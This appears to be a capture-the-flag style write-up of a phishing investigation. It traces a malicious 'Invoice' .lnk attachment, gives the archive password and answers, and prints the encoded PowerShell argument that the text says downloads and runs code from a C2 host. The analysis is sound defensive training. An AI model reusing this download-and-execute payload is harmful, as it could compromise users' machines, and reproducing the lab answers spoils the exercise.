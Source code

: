 We can copy base64 string to bash shell and decode it which we could use the password found in the email body to extract the content of this file out and then we will have the malicious attachment as the final file attachment and its the answer of this question as well.

```
Invoice_20230103.lnk
```

>What is the password of the encrypted attachment?
```
Invoice2023!
```

>Based on the result of the lnkparse tool, what is the encoded payload found in the Command Line Arguments field?

![419dc78841665038c6d39e5b1295ea9a.png](/resources/419dc78841665038c6d39e5b1295ea9a.png)

We can use the following command to extract various infomation stores inside the shortcut file including the Command Line Arguments as well -> `lnkparse Invoice_20230103.lnk` which we can see that upon opened this file on Windows system, it will execute PowerShell base64 command right here. 

![4800211afe05a8193ee54760b71ec320.png](/resources/4800211afe05a8193ee54760b71ec320.png)

We can now decode it to see what it will end up executing and the result shown that it will fetch content from C2 and execute it.

```
aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==
```

***
## [Endpoint Security] Are you sure that’s an invoice?
Based on the initial findings, we discovered how the malicious attachment compromised Julianne's workstation:
- A PowerShell command was executed.
- Decoding the payload reveals the starting point of endpoint activities.
